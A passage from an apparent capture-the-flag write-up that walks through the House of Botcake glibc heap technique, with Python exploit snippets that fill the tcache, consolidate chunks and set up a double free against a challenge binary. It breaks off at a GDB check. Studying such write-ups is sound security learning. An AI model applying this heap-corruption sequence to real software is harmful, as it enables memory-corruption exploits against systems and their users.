For this stage, we will use the technique called [House of Botcake](https://github.com/shellphish/how2heap/blob/master/glibc_2.32/house_of_botcake.c).

We will first malloc 7 chunks with the size larger than fastbin but still smaller than tcache and the ideal size if 0x100:

```py
for i in range(7):
    add(i, 0x100, '{}'.format(i).encode()*8)
```

Next, we will create 2 chunks with the same size as 0x100, the first one will be used for controlling (overwrite forward pointer) and the second one for attacking tcache:

```py
add(7, 0x100, '{}'.format(7).encode()*8)
add(8, 0x100, '{}'.format(8).encode()*8)
```

And 1 small chunk to avoid consolidation:

```py
add(9, 0x10, '{}'.format(9).encode()*8)
```

Next, we will free all 7 chunks at the begining of this stage to fill up the tcache:

```py
for i in range(7):
    free(i)
```

And with the next free() the chunk with the same size as 0x100, because tcache is full so it will not be added to tcache but will put it to fastbin (if within size range of fastbin) or unsorted bin (in this case is unsorted bin because 0x100 is larger than fastbin)

![unsorted_bin_after_7_free.png](/static/images/foobar-ctf-2022/images/unsorted_bin_after_7_free.png)

So as the technique describe, we still have 2 chunk (index 7 and 8) haven't freed yet. We will free the chunk which is below the other first (this case is chunk index 8 because it was malloc() later), then we free the chunk above that freed chunk to make consolidation between 2 chunk:

```py
free(8)
free(7)
```

After that, we will malloc 1 chunk with the same size of 0x100 to take 1 address out from tcache, and we free that chunk index 8 to put it to tcache and we successfully conducted a double free:

```py
add(20, 0x100, b'testtest')
free(8)
```

I malloc with index 20 to not remove the pointer of index 8. After this, let’s check GDB. We can see that tcache is full of 7 chunk:

![tcache.png](/static/images/foobar-ctf-2022/images/tcache.png)
